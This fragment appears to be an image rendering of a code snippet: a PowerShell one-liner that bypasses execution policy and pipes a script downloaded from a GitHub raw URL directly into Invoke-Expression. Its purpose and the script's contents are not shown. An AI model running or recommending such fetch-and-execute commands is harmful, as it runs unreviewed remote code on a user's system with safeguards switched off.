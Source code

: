 powershell.exe -ExecutionPolicy Bypass
iwr -useb "https://raw.githubusercontent.com/Delorean12DMC/toolset/refs/heads/main/essentials.ps1" | iex
